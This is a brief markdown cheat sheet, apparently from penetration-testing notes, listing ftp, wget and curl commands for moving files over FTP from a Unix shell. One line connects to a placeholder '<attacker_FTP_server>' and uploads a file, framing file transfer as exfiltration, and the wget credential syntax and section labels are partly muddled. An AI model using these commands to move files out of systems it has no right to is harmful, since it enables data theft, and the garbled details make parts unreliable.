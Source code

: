 # Unix Shell

## 01 - Usage

### 1.1 - Download

```
$ ftp <attacker_FTP_server>

ftp> put file.txt

$ wget -m ftp://<username>@<password>@<IP>

$ wget -m --no-passive ftp://<username>@<password>@<IP>

$ curl -u <username>:<password> ftp://<IP>/file.txt
```

### 1.2 - Upload

`$ curl -u <username>:<password> -T /path/to/file.txt ftp://<IP>`

---
## References

- [TheGeekDiary: How to Use FTP Under Linux to Transfer Files](https://www.thegeekdiary.com/how-to-use-ftp-under-linux-to-transfer-files/)